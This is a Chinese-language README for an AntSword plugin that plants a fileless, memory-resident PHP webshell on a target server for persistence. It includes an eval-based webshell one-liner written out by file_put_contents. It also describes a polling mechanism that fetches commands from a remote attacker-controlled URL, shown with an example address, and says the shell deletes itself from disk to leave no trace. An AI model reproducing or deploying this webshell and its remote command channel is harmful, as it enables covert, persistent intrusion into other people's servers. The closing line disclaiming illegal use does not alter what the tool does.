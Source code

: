 # inject_und3ad

中国蚁剑（Antsword）插件

向目标服务器植入不死php webshell

## 演示

* 权限维持

![inject_undead_webshell.png](./img/inject_undead_webshell.png)

点击左上角远程文件按钮，输入远程控制文件地址以及轮询时间（以秒为单位），点击确定即可（分隔符为###）

For example : http://192.168.134.128/1.txt###60   每60秒轮询一次http://192.168.134.128/1.txt里的内容

文件内容类似于 `file_put_contents('./1.php','<?php @eval($_POST[ph4ntom]); ?>')`;  (密码可自定义，路径也可自定义，此文件内容旨在每隔一段时间写入一个小马)

上述旨在利用php特性植入不死webshell，在执行完成后，此webshell会基于用户设置的轮询时间向用户设置的远程文件地址发送请求，用户只需在远程地址的txt文档中输入想要执行的命令即可
可。

此webshell在执行后会自身删除，驻留内存之中，无文件残留

清除办法包括重启web服务等

用户在植入不死webshell后，远程控制文件地址将会被记录，在第二次打开此界面时会在下方"历史远端控制文件"中看见

## 注意事项

  此插件仅支持php环境
  
  在远程文件上如果不打算执行命令，请在远程文件中写入一个空格，否则此webshell会退出。
  
  使用者不得用于非法用途
  
## Todo

  若发现问题，请与我联系并改进~
 

